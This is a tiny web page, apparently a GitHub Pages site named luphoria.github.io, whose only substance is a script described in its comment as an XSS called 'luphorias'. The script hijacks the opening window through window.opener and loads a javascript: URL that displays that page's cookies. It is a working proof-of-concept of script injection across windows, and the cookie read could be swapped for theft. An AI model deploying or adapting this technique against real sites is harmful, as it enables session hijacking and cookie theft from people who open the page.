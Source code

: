 <!doctype html>
<html>
<body>
<h1>luphoria.github.io</h1>
<p>luphoria.github.io</p>
<script>
/*
it's time to get funky!
uses xss "luphorias" by guess who
*/
window.opener.location.href="javascript:alert(document.cookie)";
</script>
</body>
</html>

